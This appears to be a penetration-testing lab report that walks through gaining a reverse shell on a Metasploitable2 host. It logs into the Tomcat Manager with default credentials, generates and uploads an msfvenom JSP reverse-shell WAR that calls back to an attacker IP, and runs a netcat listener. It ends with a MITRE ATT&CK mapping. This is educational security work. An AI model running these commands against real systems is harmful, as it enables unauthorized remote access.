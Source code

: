 # Exploitation Report: Apache Tomcat Manager WAR Shell Upload

## Objective

Gain remote code execution on the target host (Metasploitable2) by leveraging weak credentials in the Apache Tomcat Manager and deploying a WAR-based JSP reverse shell.

---

## Summary

- **Target**: 192.168.6.3:8180
- **Exploit Vector**: Apache Tomcat Manager Interface (`/manager/html`)
- **Vulnerability Type**: Weak/default credentials + remote code execution via WAR deployment
- **Access Gained**: Reverse shell as `tomcat` user
- **Persistence**: Temporary — shell ends if connection is dropped

---

## Step-by-Step Exploitation

### 1. Validated Tomcat Service
- Navigated to:
http://192.168.6.3:8180/
http://192.168.6.3:8180/manager/html

- Confirmed Apache Tomcat default Manager application is exposed

### 2. Gained Access Using Default Credentials
- Used credentials:
Username: tomcat
Password: tomcat

- Successfully logged into `/manager/html`

### 3. Created Reverse Shell WAR Payload
Command used:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.6.4 LPORT=4444 -f war > shell.war

LHOST was set to Kali machine's IP (192.168.6.4)

LPORT: 4444

### 4. Started Listener

nc -lvnp 4444

### 5. Uploaded Payload to Tomcat Manager

Navigated to: WAR upload section

Uploaded: shell.war

New context appeared: /shell

### 6. Triggered Payload

Visited: http://192.168.6.3:8180/shell/

Succesfully received a reversed shell:

connect to [192.168.6.4] from (192.168.6.3)

Ran commands: 

whoami
id
uname -a # See appropriate screenshot

MITRE ATT&CK Mapping

Technique

1. Initial Access, ID: T1133, Description: External Remote Services
2. Execution, ID: T1059.004, Description: Unix Shell via reverse connection
3. Persistence, ID: T1505.003, Description: Web Shell via WAR file deployment
4. Credential Access, ID: T1078, Description: Valid Accounts (default credentials)

